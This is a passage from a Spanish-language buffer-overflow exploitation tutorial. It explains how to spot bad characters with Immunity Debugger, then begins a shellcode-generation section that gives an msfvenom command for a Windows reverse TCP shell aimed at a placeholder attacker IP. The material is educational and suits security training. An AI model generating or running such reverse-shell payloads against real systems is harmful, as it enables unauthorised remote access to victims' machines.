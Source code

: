 En **Immunity Debugger**, se puede seguir el puntero **ESP** para visualizar el volcado de memoria que contiene los caracteres enviados. Lo que se busca es identificar cualquier carácter faltante o fuera de lugar en la secuencia. Si, por ejemplo, la secuencia pasa de **0x03** a **0x05** sin incluir el **0x04**, entonces el **0x04** es un carácter malo que debe eliminarse del shellcode.

### Ejemplo de Identificación

En un escenario típico, si la secuencia de caracteres se ve así:

```
... 0x01 0x02 0x03 0x05 0x06 ...
```

Esto indica que el **0x04** es un carácter malo. Todos los caracteres faltantes o que no se encuentren en el orden correcto deben ser anotados y excluidos al generar el shellcode.

### Importancia de la Identificación Precisa

Es fundamental identificar correctamente todos los caracteres malos. Omitir un carácter malo puede llevar a que el shellcode no se ejecute correctamente, resultando en frustración y pérdida de tiempo al intentar diagnosticar el problema. Una vez que se tiene la lista completa de caracteres malos, se debe excluir cada uno de ellos al generar el shellcode.

### Próximos Pasos

Después de identificar todos los caracteres malos, el siguiente paso será **encontrar el módulo adecuado** en la memoria para la ejecución del shellcode y, posteriormente, generar el shellcode final para completar el ataque de desbordamiento de búfer.

Este proceso asegura que el shellcode se ejecute sin interrupciones ni errores causados por caracteres conflictivos.

<hr style="border: none; height: 10px; background-color: #003b00;" />

## <font color="#008f11">10. Generación de Shellcode.</font>

<hr style="border: none; height: 10px; background-color: #003b00;" />

En esta etapa final, el objetivo es generar el **shellcode** necesario para obtener acceso remoto a la máquina objetivo. Para lograrlo, se utiliza la herramienta **MSFvenom**, que forma parte del framework **Metasploit**, y permite crear un shell inverso que será ejecutado en la máquina vulnerable.

### Utilización de MSFvenom

**MSFvenom** es una herramienta poderosa para generar payloads (cargas útiles) con diferentes opciones y configuraciones. En este caso, se generará un **shell inverso** que permita a la máquina víctima conectarse de vuelta a la máquina atacante.

### Comando para generar shellcode

El comando para generar el shellcode se compone de varios parámetros clave:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP_ATACANTE LPORT=4444 -f c -a x86 -b "\x00"
```
